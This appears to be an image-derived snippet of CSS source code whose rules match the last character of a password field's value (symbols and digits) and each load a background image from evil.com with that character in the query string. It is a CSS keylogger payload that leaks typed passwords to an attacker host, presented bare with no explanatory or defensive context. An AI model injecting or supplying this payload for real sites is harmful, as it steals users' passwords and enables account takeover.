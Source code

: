 ```css
#password[value$="%"] {
  background-image: url("http://evil.com/?c=%25");
}
#password[value$="&"] {
  background-image: url("http://evil.com/?c=%26");
}
#password[value$="'"] {
  background-image: url("http://evil.com/?c=%27");
}
#password[value$="("] {
  background-image: url("http://evil.com/?c=%28");
}
#password[value$=")"] {
  background-image: url("http://evil.com/?c=%29");
}
#password[value$="*"] {
  background-image: url("http://evil.com/?c=%2A");
}
#password[value$="+"] {
  background-image: url("http://evil.com/?c=%2B");
}
#password[value$=","] {
  background-image: url("http://evil.com/?c=%2C");
}
#password[value$="-"] {
  background-image: url("http://evil.com/?c=-");
}
#password[value$="."] {
  background-image: url("http://evil.com/?c=.");
}
#password[value$="/"] {
  background-image: url("http://evil.com/?c=%2F");
}
#password[value$="0"] {
  background-image: url("http://evil.com/?c=0");
}
#password[value$="1"] {
  background-image: url("http://evil.com/?c=1");
}
#password[value$="2"] {
  background-image: url("http://evil.com/?c=2");
}
#password[value$="3"] {
  background-image: url("http://evil.com/?c=3");
}
#password[value$="4"] {
  background-image: url("http://evil.com/?c=4");
}
#password[value$="5"] {
  background-image: url("http://evil.com/?c=5");
}
#password[value$="6"] {
  background-image: url("http://evil.com/?c=6");
}
#password[value$="7"] {
  background-image: url("http://evil.com/?c=7");
}
#password[value$="8"] {
  background-image: url("http://evil.com/?c=8");
}
#password[value$="9"] {
  background-image: url("http://evil.com/?c=9");
}
```